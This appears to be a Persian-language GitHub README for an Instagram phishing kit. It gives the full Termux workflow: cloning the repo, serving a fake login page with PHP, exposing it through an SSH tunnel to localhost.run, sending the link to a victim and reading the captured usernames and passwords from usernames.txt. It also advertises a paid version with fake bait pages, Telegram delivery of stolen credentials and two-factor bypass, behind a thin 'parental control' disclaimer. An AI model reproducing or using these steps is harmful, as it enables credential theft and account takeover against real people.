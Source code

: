 # hack-instagram

<img src="pic1.png">
<h2>
آموزش هک اینستاگرام با ارسال لینک در ترموکس
</h2>
<h5>⚠️توجه کنید که این آموزش صرفا جهت کنترل فرزندان هست و مسئولیت و عواقب هرگونه ورود به حریم خصوصی افراد با خود شخص خواهد بود
</h5><h3>
⚙آموزش استفاده از اسکریپت:
</h3>

<h5>
ابتدا وارد ترموکس شوید:
</h5>
<h6>
اگه آموزش ترموکس رو بلد نیستید از لینک زیر آموزش رو مطالعه کنید:
<a href="https://telegra.ph/%D8%AF%D9%88%D8%B1%D9%87-%D8%AA%D8%AE%D8%B5%D8%B5%DB%8C-%D8%A2%D9%85%D9%88%D8%B2%D8%B4-%D8%AA%D8%B1%D9%85%D9%88%DA%A9%D8%B3-11-21" >آموزش ترموکس</a>
<br>
<br>
سپس در ترموکس با دستور زیر اسکریپت رو دانلود کنید:
<br><pre>
git clone https://github.com/tHACKGM/hack-instagram
</pre>
سپس با دستور زیر وارد پوشه اسکریپت بشید:
<br><pre>
cd hack-instagram
</pre>
<div>
سپس لوکال هاست رو با کد زیر اجرا کنید:
<pre>
php -S 127.0.0.1:3000
</pre>
و صفحه ای جدید باز کنید با دستور زیر پورت فرواردینگ رو اجرا کنید:
<pre>
ssh -R 80:127.0.0.1:3000 nokey@localhost.run
</pre>
<br>
سپس لینک ساخته شده رو به تارگت بدید ، و بعد از ارسال لینک در ترموکس توی صفحه اول این دستور رو وارد کنید تا پسورد و یوررنیمی که تارگت وارد کرده مشاهده کنید:
<pre>
cat usernames.txt
</pre>
</br>

_______________________________________

</h6>
روش دوم با استفاده از هاست و دامنه:👇
</h6>
<h6>
ابتدا اسکریپت را از لینک زیر دانلود کنید:
<br>
https://github.com/tHACKGM/hack-instagram/archive/refs/heads/main.zip
<br>
و یک هاست و دامنه تهیه کنید و فایل اسکریپت رو در اون آپلود کنید و لینک رو به تارگت بدید ، 
<br>
وقتی قربانی رمز و یورزنیمش رو در صفحه وارد کنه فایلی به نام usernames.txt در هاست شما ذخیره میشه که در اون میتونید یورزنیم و رمز اینستاگرام فرد رو مشاهده کنید.
</br>

_______________________________________

</h6>
<h4>
⭐نسخه VIP هک اینستاگرام با ارسال لینک⭐
</h4>
<h6>
نسخه رایگانی که بالا قرار دادیم کار میکنه و میتونید پسورد و یورزنیم قربانی رو هم در ترموکس دریافت کنید اما اگه قابلیت های بیشتری میخواید میتونید نسخه vip این اسکریپت رو خریداری کنید!
<br>
در نسخه vip این اسکریپت میتونید دو نوع فیک  پیج مختلف رو داشته باشید یکی به اسم افزایش فالوور و یکی دیگه به اسم نمایش پست پیج های خصوصی اینستاگرام که تصاویرشون رو میتونید مشاهده کنید:👇
<br>
<img src="pic2.png">
<br>
<img src="pic3.png">
<br>
<h5>
⭐قابلیت های نسخه vip:</h5>
<h6>
📥دریافت اطلاعات در ربات تلگرام 
<br>
📨قابلیت دور زدن تایید دومرحله ای 
<br>
📦فیک پیج افزایش فالوور با طراحی حرفه ای
<br>
📦فیک پیج نمایش پست پیج های خصوصی
<br>
<br>
🛒جهت خرید نسخه vip و اطلاعات بیشتر به فروشگاه کانال مراجعه کنید:

<a href="https://t.me/Store_Hackgm" >T.me/Store_Hackgm</a>
<br>


